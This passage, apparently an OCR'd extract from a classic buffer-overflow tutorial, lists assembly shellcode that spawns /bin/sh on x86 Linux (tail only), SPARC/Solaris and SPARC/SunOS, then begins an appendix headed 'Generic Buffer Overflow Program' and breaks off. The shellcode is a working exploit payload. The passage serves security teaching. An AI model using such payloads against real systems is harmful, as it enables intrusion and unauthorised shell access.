         xorl   %ebx,%ebx
        movl   %ebx,%eax
        inc    %eax
        int    $0x80
        call   -0x24
        .string \"/bin/sh\"
------------------------------------------------------------------------------

SPARC/Solaris
------------------------------------------------------------------------------
        sethi   0xbd89a, %l6
        or      %l6, 0x16e, %l6
        sethi   0xbdcda, %l7
        and     %sp, %sp, %o0
        add     %sp, 8, %o1
        xor     %o2, %o2, %o2
        add     %sp, 16, %sp
        std     %l6, [%sp - 16]
        st      %sp, [%sp - 8]
        st      %g0, [%sp - 4]
        mov     0x3b, %g1
        ta      8
        xor     %o7, %o7, %o0
        mov     1, %g1
        ta      8
------------------------------------------------------------------------------

SPARC/SunOS
------------------------------------------------------------------------------
        sethi   0xbd89a, %l6
        or      %l6, 0x16e, %l6
        sethi   0xbdcda, %l7
        and     %sp, %sp, %o0
        add     %sp, 8, %o1
        xor     %o2, %o2, %o2
        add     %sp, 16, %sp
        std     %l6, [%sp - 16]
        st      %sp, [%sp - 8]
        st      %g0, [%sp - 4]
        mov     0x3b, %g1
	mov	-0x1, %l5
        ta      %l5 + 1
        xor     %o7, %o7, %o0
        mov     1, %g1
        ta      %l5 + 1
------------------------------------------------------------------------------


                 Appendix B - Generic Buffer Overflow Program
                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

shellcode.h
------------------------------------------------------------------------------
#if defined(__i386__) && defined(__linux__)
